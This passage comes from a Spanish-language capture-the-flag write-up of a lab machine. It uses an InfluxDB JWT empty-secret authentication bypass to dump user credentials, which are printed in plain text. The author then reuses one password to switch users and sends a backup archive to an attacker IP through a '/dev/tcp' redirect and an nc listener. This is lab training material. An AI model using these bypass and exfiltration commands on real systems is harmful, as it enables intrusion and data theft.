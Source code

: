 Tiene un script de python __main__.py (renombrar a exploit.py) y un archivo users.txt (diccionario de usaurios)  
```console
└─$ python3 exploit.py

Host (default: localhost): 
Port (default: 8086): 
Username <OR> path to username file (default: users.txt): 

Bruteforcing usernames ...  [v] admin
Host vulnerable !!!
[admin@127.0.0.1/devzat] $ show databases # -> devzat e _internal
[admin@127.0.0.1/devzat] $ show measurementes # igual al show tables de mysql -> user
[admin@127.0.0.1/devzat] $ select * from "user" 
# Credenciales
"wilhelm":"WillyWonka2021"
"catherine":"woBeeYareedahc7Oogeephies7Aiseci"
"charles":"RoyalQueenBee$"
```
Analizando el exploit de antes parece que la versiones previas de influx a 1.7.6 le podias enviar una cookie hecha con un secreto vacío, el exploit intentar mandarlo
con cada uno de los usaurios mas comunes (como admin)  
```
# Token -> {"username" : "admin", "exp": exp}   # exp es el tiempo actual + 2.628 * 10 elevado a 6.
# Cookie -> token = jwt.encode(payload, "", algorithm="HS256")
# Authorization: bearer -> token
```

---------------------------
## Part 5: Escalando privilegios

Como tenemos la contraseña de la Catherine: 
```console
└─$ ssh -l catherine 127.0.0.1 -p 8443
patrick: Ey Catherine, me alegro de verte.
catherine: Hey compañero, en que has estado ultimamente?
patrick: Recuerdas la utilidad tan guay de la que te hablé el otro dia?
catherine: Si
patrick: Yo la implementé. Si quieres verla conectate al la intancia local por el puerto 8443.
catherine: Esque estoy algo liada ahora... 👔
patrick: Bueno, está bien 👍  Necesitarás una contraseña para entrar. La he dejado en nuestra zona de backups
catherine: k
patrick: También puse la versión pública para que la puedas usar tambien.
catherine: Ok, en cuanto el jefe me deje un rato, le echaré un vistazo.
patrick: Genial, deseando saber tu opinión. Es una alfa, o sea no es segura del todo. Hasta luego lucas!
devbot: patrick has left the chat

catherine: /file "/etc/passwd" "woBeeYareedahc7Oogeephies7Aiseci"
# Contraseña incorrecta
```
No podemos hacer ssh con las creds de esta señora, pero si acceder desde la consola del sistema que ya tenemos.  
```console
patrick@devzat:/tmp$ su catherine
Password: woBeeYareedahc7Oogeephies7Aiseci
```
Habia dicho antes algo de archivos backup, en /backups estan:  
```console
/var/backups/devzat-main.zip
/var/backups/devzat-dev.zip
catherine@devzat:/var/backups$ cat devzat-dev.zip > /dev/tcp/10.10.14.12/444
└─$ sudo nc -nlvp 444 > dev.zip
Ncat: Connection from 10.10.11.118:47536.
```